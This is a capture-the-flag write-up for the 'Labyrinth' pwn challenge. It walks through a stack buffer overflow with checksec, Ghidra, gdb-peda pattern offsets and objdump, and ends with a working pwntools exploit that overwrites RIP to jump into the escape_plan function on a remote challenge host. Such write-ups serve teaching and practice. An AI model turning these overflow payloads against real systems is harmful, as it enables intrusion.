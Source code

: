 # [Pwn - easy] Labyrinth
A 64-bit binary file is given, and the equivalent made available via TCP.

```bash
┌──(vagrant㉿kali)-[/vagrant/ctf/pwn/challenge]
└─$ file labyrinth
labyrinth: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=86c87230616a87809e53b766b99987df9bf89ad8, for GNU/Linux 3.2.0, not stripped

┌──(vagrant㉿kali)-[/vagrant/ctf/pwn/challenge]
└─$ checksec --file=labyrinth
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   RW-RUNPATH   83 Symbols	  No	0		4		labyrinth
```

Opening the binary with [Ghidra](https://ghidra-sre.org/) reveals that this binary is about buffer overflow via `fgets` reading `0x44` bytes.

![ghidra](./img/pwn_labyrinth_1.png)

At the adress `0x00401255` there's an `escape_plan` function that will read the flag from file and print it.

![escape_plan](./img/pwn_labyrinth_2.png)

The aim is thus to reach `fgets` by inputing `069`, then overflow `local_38` in order to control the `RIP` Instruction Pointer. The value to set in `RIP` will be an address in the `escape_plan` 
function, around the address `0x00401255`. Since the binary is a 64-bits `LSB` (Little Endian, Least Significant Byte), addresses will need to be reversed and be on 8 octets: for instance here 
`\x55\x12\x40\x00\x00\x00\x00\x00`.

Giving it a try with [gdb-peda](https://github.com/longld/peda), with a pattern of length `68` (the `0x44` in `fgets`), gives us the info that `RBP` is overriden at an offset of 48.

```bash
┌──(vagrant㉿kali)-[~]
└─$ msf-pattern_create -l 68
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac

┌──(vagrant㉿kali)-[/vagrant/ctf/pwn/challenge]
└─$ gdb ./labyrinth
[...]
gdb-peda$ r <<< $(python -c "print('069\n'+'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac')")
[...]

▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
▒-▸        ▒           ▒          ▒
▒-▸        ▒     O     ▒          ▒
▒-▸        ▒    '|'    ▒          ▒
▒-▸        ▒    / \    ▒          ▒
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▲△▲△▲△▲△▲△▒

Select door:

Door: 001 Door: 002 Door: 003 Door: 004 Door: 005 Door: 006 Door: 007 Door: 008 Door: 009 Door: 010
Door: 011 Door: 012 Door: 013 Door: 014 Door: 015 Door: 016 Door: 017 Door: 018 Door: 019 Door: 020
Door: 021 Door: 022 Door: 023 Door: 024 Door: 025 Door: 026 Door: 027 Door: 028 Door: 029 Door: 030
Door: 031 Door: 032 Door: 033 Door: 034 Door: 035 Door: 036 Door: 037 Door: 038 Door: 039 Door: 040
Door: 041 Door: 042 Door: 043 Door: 044 Door: 045 Door: 046 Door: 047 Door: 048 Door: 049 Door: 050
Door: 051 Door: 052 Door: 053 Door: 054 Door: 055 Door: 056 Door: 057 Door: 058 Door: 059 Door: 060
Door: 061 Door: 062 Door: 063 Door: 064 Door: 065 Door: 066 Door: 067 Door: 068 Door: 069 Door: 070
Door: 071 Door: 072 Door: 073 Door: 074 Door: 075 Door: 076 Door: 077 Door: 078 Door: 079 Door: 080
Door: 081 Door: 082 Door: 083 Door: 084 Door: 085 Door: 086 Door: 087 Door: 088 Door: 089 Door: 090
Door: 091 Door: 092 Door: 093 Door: 094 Door: 095 Door: 096 Door: 097 Door: 098 Door: 099 Door: 100

>>
You are heading to open the door but you suddenly see something on the wall:

"Fly like a bird and be free!"

Would you like to change the door you chose?

>>
[-] YOU FAILED TO ESCAPE!


Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7ea7a37 (<write+23>:	cmp    rax,0xfffffffffffff000)
RDX: 0x0
RSI: 0x7fffffffc0d0 --> 0x6d31333b315b1b0a
RDI: 0x7fffffffbfb0 --> 0x7ffff7df50d0 (<funlockfile>:	endbr64)
RBP: 0x6241376241366241 ('Ab6Ab7Ab')
RSP: 0x7fffffffe228 ("8Ab9Ac0Ac1A")
RIP: 0x401602 (<main+509>:	ret)
R8 : 0x23 ('#')
R9 : 0x7fffffff
R10: 0x0
R11: 0x246
R12: 0x7fffffffe338 --> 0x7fffffffe5fd ("/vagrant/ctf/pwn/challenge/labyrinth")
R13: 0x401405 (<main>:	push   rbp)
R14: 0x0
R15: 0x7ffff7ffd040 --> 0x7ffff7ffe2e0 --> 0x0
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4015f7 <main+498>:	call   0x4010c0 <fprintf@plt>
   0x4015fc <main+503>:	mov    eax,0x0
   0x401601 <main+508>:	leave
=> 0x401602 <main+509>:	ret
   0x401603:	cs nop WORD PTR [rax+rax*1+0x0]
   0x40160d:	nop    DWORD PTR [rax]
   0x401610 <__libc_csu_init>:	push   r15
   0x401612 <__libc_csu_init+2>:	lea    r15,[rip+0x2727]        # 0x403d40
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe228 ("8Ab9Ac0Ac1A")
0008| 0x7fffffffe230 --> 0x413163 --> 0x0
0016| 0x7fffffffe238 --> 0x401405 (<main>:	push   rbp)
0024| 0x7fffffffe240 --> 0x100000000
0032| 0x7fffffffe248 --> 0x7fffffffe338 --> 0x7fffffffe5fd ("/vagrant/ctf/pwn/challenge/labyrinth")
0040| 0x7fffffffe250 --> 0x0
>0048| 0x7fffffffe258 --> 0xc4cd354ce8e5d3cf
0056| 0x7fffffffe260 --> 0x7fffffffe338 --> 0x7fffffffe5fd ("/vagrant/ctf/pwn/challenge/labyrinth")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000401602 in main ()
```

![escape_plan](./img/pwn_labyrinth_3.png)

```bash
┌──(vagrant㉿kali)-[~]
└─$ msf-pattern_offset  -l 68 -q 6241376241366241
[*] Exact match at offset 48
```

Since `RIP` is 8 bytes from `RBP`, in order to override it the first part of input is `"069\n" + "A"*48 + "B*8"`. However we hit a snag with the adress to override `RIP` with: the first instruction of `escape plan` is `push %rbp`.

```bash
┌──(vagrant㉿kali)-[/vagrant/ctf/pwn/challenge]
└─$ objdump -D labyrinth | grep -A5 escape_plan
0000000000401255 <escape_plan>:
  401255:	55                   	push   %rbp
  401256:	48 89 e5             	mov    %rsp,%rbp
  401259:	48 83 ec 10          	sub    $0x10,%rsp
  40125d:	bf 0a 00 00 00       	mov    $0xa,%edi
  401262:	e8 c9 fd ff ff       	call   401030 <putchar@plt>
```

Since it was overridden by a bunch of Bs, it leads to a SEGFAULT. Let's take the next instruction's address: `0x401256`. The input becomes: `"069\n" + "A"*48 + "B*8" + "\x56\x12\x40\x00\x00\x00\x00\x00"`. Testing it locally with `gdb-peda` gives the flag:

```bash
gdb-peda$ r <<< $(python -c "print('069\n'+'A'*48 + 'B'*8 + '\x56\x12\x40\x00\x00\x00\x00\x00')")
[...]
Congratulations on escaping! Here is a sacred spell to help you continue your journey:
HTB{f4k3_fl4g_4_t35t1ng}
```

The final exploit looks like:

```python
from pwn import *

r = remote('138.68.162.218',30843)
lol = r.readuntil(b'>> ')
# print(lol)
r.send(b'069' + b"\n")
lol = r.readuntil(b'>> ')
r.send(b'A'*48 + b'B'*8 + b'\x56\x12\x40\x00\x00\x00\x00\x00')
r.send(b"\n")
lol=r.readall()
print(lol)
r.close()
```

And gives the flag!

![flag](./img/pwn_labyrinth_4.png)
